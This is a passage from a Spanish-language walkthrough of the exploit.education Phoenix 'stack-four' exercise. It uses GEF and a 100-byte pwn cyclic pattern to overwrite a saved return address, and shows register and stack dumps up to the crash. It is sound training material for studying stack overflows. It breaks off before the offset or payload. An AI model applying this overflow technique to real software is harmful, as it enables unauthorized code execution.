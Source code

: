 para continuar con la ejecución del binario lo hacemos con el comando `c` esto nos permite continuar y vemos que nos pide el argumento

```c
gef➤  c
Continuing.
Welcome to phoenix/stack-four, brought to you by https://exploit.education
```

vamos a crear un patrón  cíclico de 100 bytes: con la herramienta de pwn cyclic y esto lo hacemos con el comando `pwn cyclic 100` en nuestra máquina local y nos envía un patrón de 100 caracteres

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix]
└─# pwn cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

Este patrón lo copiamos y lo pegamos como la respuesta que está esperando el binario y vemos que nos da un mensaje que dice **y volverá a 0x6161617861616177** ya tenemos el retorno pisado, pero aún no sabemos el offset 

```c
gef➤  c
Continuing.
Welcome to phoenix/stack-four, brought to you by https://exploit.education
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
and will be returning to 0x6161617861616177

Program received signal SIGSEGV, Segmentation fault.
0x6161617861616177 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x2c              
$rbx   : 0x00007fffffffe6a8  →  0x00007fffffffe8a0  →  "/opt/phoenix/amd64/stack-four"
$rcx   : 0x0               
$rdx   : 0xffffffff        
$rsp   : 0x00007fffffffe640  →  0x0000000061616179 ("yaaa"?)
$rbp   : 0x6161617661616175 ("uaaavaaa"?)
$rsi   : 0x000000000040074f  →   add BYTE PTR [rdi+0x65], dl
$rdi   : 0x00007ffff7ffc948  →  "and will be returning to 0x6161617861616177ou by h[...]"
$rip   : 0x6161617861616177 ("waaaxaaa"?)
$r8    : 0x2000            
$r9    : 0x10              
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x00007fffffffe6b8  →  0x00007fffffffe8be  →  "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so[...]"
$r13   : 0x000000000040066a  →  <main+0> push rbp
$r14   : 0x0               
$r15   : 0x0               
$eflags: [carry PARITY adjust zero sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffe640│+0x0000: 0x0000000061616179 ("yaaa"?)	 ← $rsp
0x00007fffffffe648│+0x0008: 0x0000000100000000
0x00007fffffffe650│+0x0010: 0x0000000000000001
0x00007fffffffe658│+0x0018: 0x00007ffff7d8fd62  →  <__libc_start_main+54> mov edi, eax
0x00007fffffffe660│+0x0020: 0x0000000000000000
0x00007fffffffe668│+0x0028: 0x00007fffffffe6a0  →  0x0000000000000001
0x00007fffffffe670│+0x0030: 0x0000000000000000
0x00007fffffffe678│+0x0038: 0x00007ffff7ffdbc8  →  0x00007ffff7ffdbc8  →  [loop detected]
```